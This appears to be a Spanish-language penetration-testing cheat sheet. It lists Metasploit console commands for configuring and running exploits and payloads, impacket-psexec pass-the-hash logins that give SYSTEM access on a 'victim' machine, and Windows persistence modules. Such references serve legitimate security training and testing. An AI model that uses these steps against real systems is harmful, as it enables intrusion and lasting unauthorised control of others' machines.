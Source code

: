```bash 
❯ use ❮Number or path❯       # Colocamos el numero del exploit que vamos a usar
❯ back                       # Nos salimos del exploit o auxiliar que hemos elegido 
❯ options                    # Miramos las opciones del exploit y lo que debemos de configurar
❯ show advanced options      # Miramos las opciones avanzadas del exploit y lo que debemos de configurar
❯ check                      # Nos dice si el RHOST es vulnerable a ese exploit sin explotarlo, esto depende del modulo, si trae esta opcion o no
❯ unset                      # Quitas la configuracion 
❯ set LHOST ❮IP❯             # Configuramos el IP local eth0, ens33 (Si estamos en una VPN colocar el Tun0)
❯ setg RHOSTS ❮IP❯           # Configuras de manera global el RHOSTS
❯ set RHOSTS ❮IP❯            # Configuramos el IP remoto (maquina victima)
❯ set RPORT ❮Port❯           # Configuramos el puerto remoto (maquina victima)
❯ set LPORT ❮Port❯           # Configuramos el puerto local
❯ show targets               # Miras los targets disponibles (Diferentes versiones de Windows)
❯ set target ❮Number❯        # Seleccionamos el numero de target a usar
❯ show payloads              # Miramos los payload disponibles
❯ set payload ❮Path❯         # Colocamos la ruta del Payload a usar
❯ run                        # Ejecutamos el exploit  

❯ ctrl + z                   # Colocas la sesion en 'Background'
❯ sessions                   # Miramos las sesiones activas 
❯ sessions -u <ID>           # Regresamos a la sesion 
```

## Usar Psexec

```bash 
❯ impacket-psexec WORKGROUP/omar@<IP Victima> -hashes :3ebi487y598ongyn98g56yng389yr6d6u  # Podemos hacer pass the hash y ser nt authority\system
❯ impacket-psexec WORKGROUP/omar:<Password>@<IP Victima>                                  # Podemos usar la passwd para entrar y ser nt authority\system
```

## Persistencia 

Persistencia = Ganar acceso a la maquina victima cada cierto tiempo por si se pierde una conexión 
```bash 
❯ search persistence                                     # Miramos todos los modulos de persistencia
❯ search persistence platform:"windows"                  # Miramos los modulos de persistencia para Windows

❯ use exploit/windows/local/persistence_service          # Usamos un modulo de persistencia
❯ show options                                           # Este modulo nos pide una sesion ya establecida con la maquina victima
❯ set SESSION <id session>                               # Colocamos el id de la sesion que ya tenemos establecida anteriormente
❯ run 
```
